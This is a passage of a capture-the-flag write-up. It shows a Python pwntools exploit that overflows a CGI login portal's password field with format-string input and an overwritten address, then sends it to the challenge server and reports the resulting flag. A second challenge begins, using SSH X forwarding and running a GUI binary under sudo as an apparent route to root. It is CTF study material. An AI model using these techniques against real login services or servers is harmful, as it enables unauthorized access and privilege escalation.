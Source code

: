 ```python
#!/usr/bin/env python3

import json
import os
import requests
import base64

from pwn import *

ADDR_LD_SO_STR = 0x00000000004002A8

# Login with "conflict processing: %s"
username = b'conflict processing\0'
password = b' %s\0' +  b'A'*(256-len(username)-4) + b'B'*4 + p64(ADDR_LD_SO_STR)
payload = json.dumps({'user':base64.b64encode(username).decode('ascii'), 'pass':base64.b64encode(password).decode('ascii')})

# Local test
env = os.environ.copy()
env['CONTENT_LENGTH'] = str(len(payload))
env['REQUEST_METHOD'] = 'POST'
env['FLAG'] = 'FAKE_FLAG'
r = process('cgi-bin/portal.cgi', env=env, level='info')
pause()
r.sendline(payload)
r.interactive()

# Execute exploit
BASE_URL = 'https://authportal.challenges.adversary.zone:8880'
r = requests.post(BASE_URL + '/cgi-bin/portal.cgi', json={'user':base64.b64encode(username), 'pass':base64.b64encode(password)})
print(r.text)
```

Running it gives us the flag: `CS{w3b_vPn_h4xx}`.

### Dactyl's Tule Box

Here we are given an image and a server where that image is running. We can login in to the server with an SSH key we are given. On the server there is a GTK binary "/usr/local/bin/mapviewer". We can also find that X forwarding is enabled on the server by looking at the sshd configuration. To be able to run the program at all, we connect to the server with X forwarding on our SSH client:

```bash
$ ssh -X -i customer01.pem customer01@maps-as-a-service.challenges.adversary.zone -p 4141
$ /usr/local/bin/mapviewer
```

We are allowed to run this program as root with sudo but for this to work we need to specify the Xauthority:

```bash
$ XAUTHORITY=$(pwd)/.Xauthority sudo /usr/local/bin/mapviewer
```
